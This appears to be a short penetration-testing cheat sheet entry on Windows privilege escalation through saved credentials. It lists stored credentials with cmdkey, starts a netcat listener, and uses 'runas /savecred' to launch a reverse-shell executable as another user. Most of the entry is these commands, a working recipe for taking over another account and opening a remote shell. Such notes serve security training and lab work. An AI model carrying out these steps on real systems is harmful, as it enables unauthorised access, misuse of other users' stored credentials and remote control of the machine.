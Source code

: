 - - -
Windows has a **Runas** command that allows users to run commands as other users just like **SUDO** in linux.
But this usually requires knowledge of the other user's password.

However, Windows also allows users to save their credentials on the system, and these saved credentials can be used to bypass.....

This requirement.
Find any stored credentials.

```cmd
cmdkey /list
```

```sh
nc -nvlp 9090
```

```cmd
runas /savecred /user:<user_you_found> C:\path\to\reverse.exe
```

- - -

